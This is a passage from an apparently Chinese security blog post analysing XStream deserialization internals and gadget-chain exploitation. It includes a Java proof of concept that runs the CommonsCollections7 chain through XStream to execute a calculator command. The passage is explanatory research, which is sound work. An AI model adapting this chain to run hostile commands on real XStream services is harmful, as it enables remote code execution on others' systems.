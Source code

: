 都知道反序列化是通过 `ObjectInputStream.readObject()`实现Input转Object的。针对实现了Serializable接口的类，XStream也是通过调用readObject进行转化的，但是Input是xml格式的，如何做到的呢？

`ObjectInputStream.readObject()`的实现流程如下：  
![](https://m0d9.me/images/pasted-135.png)

可以看到Input会被解析成一个个类似TC_OBJECT的数据结构，Xstream 大致来说是通过CustomObjectInputStream实现这种解析xml结构的。

需要注意的是CustomObjectInputStream.StreamCallback 接口，在ExternalizableConverter和SerializableConverter 有不同的实现，以SerializableConverter为例：

```java
CustomObjectInputStream.StreamCallback callback = new CustomObjectInputStream.StreamCallback() {
    public Object readFromStream() {
      reader.moveDown();
      Class type = HierarchicalStreams.readClassType(reader, SerializableConverter.this.mapper);
      Object value = context.convertAnother(result, type);
      reader.moveUp();
      return value;
    }
```

[](#2-反序列化利用 "2. 反序列化利用")2\. 反序列化利用
-----------------------------------

引用Wh1t3p1g师傅的解释

> XStream反序列化同fastjson这种不一样的地方是fastjson会在反序列化的时候主动去调用getters和setters，而XStream的反序列化过程中赋值都由Java的反射机制来完成，所以并没有这样主动调用的特性。

> 但是还有一种利用方式，回想一下，在几条常规的java反序列化利用链上，都利用了HashMap、PriorityQueue等对象（key不可重复等特性）会自动去调用hashCode、equal、compareTo等这种函数。

讲的很明白了，强调一点：**java反序列化利用链，类必须要可Serializable，但是在Xstream上，并不是必须**，这里是一切利用链的根本原因。

1.  原Java反序列化链当然可以用
2.  寻找新的HashMap、PriorityQueue

### [](#2-1-原Java反序列化链 "2.1 原Java反序列化链")2.1 原Java反序列化链

这里贴一下基于cc7的poc

```java
public class CC7 {
    @Test
    public void ser() throws Exception {
        XStream xStream = new XStream();
        Object calc = new CommonsCollections7().getObject("open -a calculator.app");
        String xml = xStream.toXML(calc);
        System.out.println(xml);

        Object cc7 = xStream.fromXML(xml);
    }
}
```

### [](#2-2-寻找新的HashMap、PriorityQueue等 "2.2 寻找新的HashMap、PriorityQueue等")2.2 寻找新的HashMap、PriorityQueue等

